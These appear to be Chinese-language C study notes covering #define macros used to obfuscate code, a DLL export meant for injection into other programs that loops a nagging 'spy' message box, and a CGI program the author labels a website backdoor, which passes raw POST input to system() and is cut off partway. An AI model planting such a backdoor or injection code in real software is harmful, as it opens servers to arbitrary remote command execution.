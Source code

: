 
### defind
```
#defind PI 3.14 后面不需要加分号 因为其本质是替换 加了就成了 3.14;   
```


什么都能替换 代码混淆 易语言也是这样的原理

```


#include<stdio.h>
#include<stdlib.h>
#define 给老夫跑起来 main
#define 四大皆空 void 
#define 给老夫打印 printf
#define 给老夫pao system
四大皆空 给老夫跑起来()
{
 给老夫打印("gogogogog");
 给老夫pao("notepad");
 getchar();
}
```
### DLL _declspec
```
#include<stdlib.h>
#include<windows.h>


// _declspec(dllexport) 告诉外部可以调用，没有的话外部不可调用
_declspec(dllexport) void goA() 不需要main函数
{
 while (1)
 {
  MessageBoxA(0, "你在与间谍聊天", "请注意安全", 0);
 }
}
要编译成dll的文件，注入到其他程序中
```
### CGI
CGI：早期动态网页技术使用最多的，发展的比较成熟并且功能强大，但是效率比较低，编程比较困难。目前很少使用CGI做动态网页，主要应用与Linux和Unix操作系统中。
就是web服务器提供的一个可以执行服务器端程序接口的东西，可以用c c++ python 等各来写种语言
一个网站的后门cgi程序，可以执行各种系统的命令，当然用php也可以这样做的
```
void main()
{
    printf("Content-type:text/html\n\n");
    printf("%s<br><br>", getenv("QUERY_STRING"));//打印环境变量
    char szPost[256] = {0};
    gets(szPost);//获取输入
    printf("%s<br><br>", szPost);//获取输入
    //"BBB=tasklist&AAA=%C7%EB%BD%F8
    char *p = szPost + 4;//0,1,2,3
    char *p1 = strchr(szPost, '&');
    *p1 = '\0'; //弄个结束的位置
 
    char cmd[256] = { 0 };
    sprintf(cmd, "%s >1.txt", p);//字符串映射
    system(cmd);
    FILE *pf = fopen("1.txt", "r");
    while (!feof(pf))//如果没有到文件末尾就继续
    {
        char ch = fgetc(pf);
```